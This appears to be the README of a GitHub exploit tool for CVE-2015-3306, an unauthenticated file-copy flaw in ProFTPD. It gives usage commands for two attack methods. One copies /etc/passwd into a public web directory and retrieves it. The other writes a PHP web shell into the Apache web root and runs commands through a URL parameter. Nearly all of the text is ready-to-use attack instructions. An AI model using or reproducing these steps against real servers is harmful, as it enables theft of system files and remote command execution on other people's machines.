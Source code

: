 # cpx_proftpd

Tool coded by Daniel Aldana for [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) exploitation. Bug reported by Vadim Melihow

METHOD 1:
--------
usage: 

```python cpx_proftp.py 1 <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>```

ex:

```python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt```

then try:

```http://127.0.0.1/pass.txt```

METHOD 2:
--------

usage: 

```python cpx_proftp.py 2 <IP> <REMOTE_FULLPATH_APACHE2>```

ex:

```python cpx_proftp.py 2 127.0.0.1 /var/www/html```

then try:

```http://127.0.0.1/xxx.php?img=ls```
